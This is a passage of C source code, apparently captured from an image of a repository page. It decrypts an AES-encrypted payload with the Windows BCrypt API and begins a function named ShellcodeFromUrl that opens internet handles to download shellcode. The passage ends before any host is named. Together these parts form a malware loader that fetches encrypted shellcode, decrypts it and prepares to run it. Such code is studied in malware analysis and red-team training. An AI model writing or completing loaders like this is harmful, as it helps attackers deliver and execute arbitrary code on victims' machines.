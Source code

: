 ```c
    }
    // allocating enough memory (of size cbPlainText)
    pbPlainText = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbPlainText);
    if (pbPlainText == NULL) {
        bSTATE = FALSE; goto _EndOfFunc;
    }
    // running BCryptDecrypt second time with "pbPlainText" as output buffer
    STATUS = BCryptDecrypt(hKeyHandle, (PUCHAR)pAes->pCipherText, (ULONG)pAes->dwCipherSize, NULL, pAes->pIv, IVSIZE, pbPlainText, cbPlainText, &cbResult, BCRYPT_BLOCK_PADDING);
    if (!NT_SUCCESS(STATUS)) {
        printf("[!] BCryptDecrypt[2] Failed With Error: 0x%0.8X \n", STATUS);
        bSTATE = FALSE; goto _EndOfFunc;
    }
    // cleaning up
_EndOfFunc:
    if (hKeyHandle) {
        BCryptDestroyKey(hKeyHandle);
    }
    if (hAlgorithm) {
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    }
    if (pbKeyObject) {
        HeapFree(GetProcessHeap(), 0, pbKeyObject);
    }
    if (pbPlainText != NULL && bSTATE) {
        // if everything went well, we save pbPlainText and cbPlainText
        pAes->pPlainText = pbPlainText;
        pAes->dwPlainSize = cbPlainText;
    }
    return bSTATE;
}


// wrapper function for InstallAesDecryption that make things easier
BOOL SimpleDecryption(IN PVOID pCipherTextData, IN DWORD sCipherTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pPlainTextData, OUT DWORD* sPlainTextSize) {
    if (pCipherTextData == NULL || sCipherTextSize == NULL || pKey == NULL || pIv == NULL)
        return FALSE;

    AES Aes = {
            .pKey = pKey,
            .pIv = pIv,
            .pCipherText = pCipherTextData,
            .dwCipherSize = sCipherTextSize
    };

    if (!InstallAesDecryption(&Aes)) {
        return FALSE;
    }

    *pPlainTextData = Aes.pPlainText;
    *sPlainTextSize = Aes.dwPlainSize;

    return TRUE;
}


// Function to get the shellcode from URL which returns base address the shellcode allocated buffer
BOOL ShellcodeFromUrl(PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

    HINTERNET hInternet;				// Handle to the internet session
    HINTERNET hInternetShellcode;		// Handle to the URL connection
    DWORD dwBytesRead = NULL;					// Number of bytes read during each iteration
```